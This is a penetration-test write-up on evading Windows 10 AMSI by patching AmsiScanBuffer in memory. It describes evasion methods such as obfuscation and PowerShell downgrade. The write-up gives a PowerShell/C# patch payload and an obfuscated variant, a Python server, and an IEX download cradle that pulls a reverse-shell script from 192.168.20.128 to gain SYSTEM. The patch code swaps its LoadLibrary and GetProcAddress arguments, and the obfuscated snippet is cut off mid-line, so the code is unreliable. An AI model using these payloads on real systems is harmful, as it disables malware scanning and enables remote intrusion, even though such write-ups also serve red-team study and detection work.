 ## Table of Contents
- [**Outline**](#section-0)
- [**Antimalware Scan Interface Explanation**](#section-1)
- [ **Proof of Concept - Bypassing 2023 Windows 10 Pro AMSI**](#section-2)
- [ **Memory Patching & Obfuscation**](#section-3)
- [ **Credits & Reference**](#section-4)


## Outline  {#section-0}

The goal of this write-up is to evade the most up to date AMSI protection measure implemented in Windows 10 Pro (2023/07/28) using AMSI memory patching technique. The objective was to gain a Remote Code Execution (RCE) as NT/Authority System.

![](/assets/AV/diagram.png)  

AMSI (Antimalware Scan Interface) is a Windows feature introduced in Windows 10 and Windows Server 2016. Its primary purpose is to provide an interface that allows antivirus and other security solutions to scan and inspect scripts and code in real-time at runtime.

By default, windows defender interacts with the AMSI API to scan PowerShell scripts, VBA macros, JavaScript and scripts using the Windows Script Host technology during execution. When a user executes a script or initiates PowerShell, the AMSI.dll is injected into the process memory space.  `AmsiScanBuffer()`and `AmsiScanString()` are used by the antivirus before execution to scan the buffer and strings for suspicious activities. This ultimately prevents arbitrary execution of code.
# AMSI Evasion {#section-1}
The following evasive techniques aim to avoid detection by antivirus and security software.  

##### Code Fragmentation: 
Code fragmentation involves breaking down malicious code into smaller, seemingly harmless components. This is then assembled at runtime to evade static analysis.
This approach challenges antivirus scanners that rely on signature-based detection.

##### Obfuscation: 
Obfuscation techniques are utilized to deliberately obscure the actual intent and functionality of a script. By employing various obfuscation methods, such as code encryption, renaming variables, adding meaningless code snippet to obscure intent of the script, attackers can make their code appear convoluted. This makes AMSI scanners challenging  to interpret the true purpose of the script.

#####  Memory Patching: 
Memory patching modifies the AMSI Dynamic Link Library (DLL) in memory during runtime. This technique allows threat actors to temporarily disable or alter the functionality of AMSI. This allows attackers to run malicious scripts in memory without hindrance and triggering alerts. 
#### PowerShell Downgrade: 
PowerShell downgrading is switching the current PowerShell to Windows PowerShell verison 2.0. This version does not have AMSI protection, which makes it susceptible to arbitrary code execution. By using an older version of PowerShell, attackers can bypass the built-in security measures present in newer versions and execute malicious scripts undetected.
## Proof of Concept {#section-2}

![](/assets/AV/Final.gif)  

To verify that AMSI is correctly functioning, the tester first tried to initiate a reverse TCP connection through PowerShell using the below command in memory.
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
However, as seen above, AMSI successfully flags the activity as  `malicious` and proceeds to block the reverse shell connection. 
## Memory Patching  {#section-3}
In order to bypass AMSI, the tester utilized the following payload which was referenced from [Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass)
```bash
$thing = @"

using System;
using System.Runtime.InteropServices;
public class payload {
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $thing
[System.Collections.ArrayList]$Patch = 0xB8, 0x57, 0x90, 0x90, 0x00, 0x90, 0x07, 0x80, 0x90, 0xC3
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)
$Patch.Remove(0x90)

[byte[]]$byteArrayFun = "","","","","",""
$byteArrayFun[0] = $Patch[0]
$byteArrayFun[1] = $Patch[1]
$byteArrayFun[2] = $Patch[2]
$byteArrayFun[3] = $Patch[3]
$byteArrayFun[4] = $Patch[4]
$byteArrayFun[5] = $Patch[5]

$to = "Am" +"s" + "iSc" + "a" + "nBu" + "ffer"
$connect = "a" + "m" + "si" + ".dl" + "l"
$librarz = [payload]::LoadLibrary($to)
$dest = [payload]::GetProcAddress($librarz, $connect)
$p = 0
[payload]::VirtualProtect($dest, [uint32]5, 0x40, [ref]$p)

[System.Runtime.InteropServices.Marshal]::Copy($byteArrayFun, 0, $dest, 6)
```


By applying a patch to the `AmsiScanBuffer` function in `AMSI.dll`, using specific assembly code (mov eax, 0x80070057 and ret), the function promptly returns an error code, effectively avoiding the scanning of PowerShell code. This method allows the attacker's PowerShell code to execute without triggering AMSI's detection.

However, it is essential to acknowledge that the above memory patching payload might be flagged by ASMI before one could patch the `ASMIScanBuffer.dll` itself. Thus it is necessary to implement proper obfuscation methodologies before one delivers the payload. To conceal the payload's content and intention, the tester opted to utilize Chameleon PowerShell Obfuscator. Chameleon is a specialized tool designed to obfuscate PowerShell scripts and circumvent AMSI and commercial antivirus solutions. It employs a range of obfuscation techniques to evade common detection signatures, thereby enhancing its effectiveness in avoiding detection. Examples of obfuscation methods include but are not limited to comment deletion/substitution
string substitution (variables, functions, data-types) ,variable concatenation ,indentation randomization ,semi-random backticks insertion and randomization.

The below code snippet contains a payload that has undergone multiple layers of obfuscation.
```bash
$GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11evXUFDQD589KWR9QtwKq2Qg0mE6uMREzx7iRIZJOK2qLeZKpRqZslro01qcJC03aScqnLmSiSVJ6AIwZKGZF1aEaYGjS13PQyKmRdpmc2yMyISCN1yYuQCBZkF5i2LKBOpm7FcEshpWYz6QTzs9m5WNt6PONU73eoXpVQZKAbDUydPdN2ZdTeNdkOjDZHErYeh5b0Tqq9N = @"
// thing 
// using syStEm.CoLLeCtiONS.ArrAyLiST;
using System; // thingssa
using System.Runtime.InteropServices;
public class payload {
      [DllImport("kernel32")]
      public static extern IntPtr LoadLibrary(string name);
[DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
        [DllImport("kernel32")]
       public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
}
"@
Add-Type $GFW2Au7XbmPG5GvoODmvtYOpODkUS2KZR095wx8IHiPJu4eatfAA885Px56TcF0MnqghrNzM42Lvz0LE4IzoWJzpj7ML2MZ11

```


After implementing effective obfuscation techniques, the tester proceeded by hosting a Python web server on port 8443 to serve a PowerShell Reverse Shell Scrip.
```bash
python3 -m http.server 8443
```

Taking advantage of the AMSI.dll malfunction, the tester successfully initiated a reverse TCP connection via PowerShell, executing the following command in memory:
```bash
IEX (New-Object Net.WebClient).DownloadString('http://192.168.20.128:8443/Invoke-PowerShellTcp.ps1')
```
Consequently, the tester achieved a  Remote Code Execution (RCE) with NT/Authority System privileges.
![](/assets/AV/system.png)  

## Reference  {#section-4}
[Red Team Playbook](https://www.xn--hy1b43d247a.com/defense-evasion/amsi-bypass) && [Pentest Laboratories](https://pentestlaboratories.com/2021/05/17/amsi-bypass-methods/)
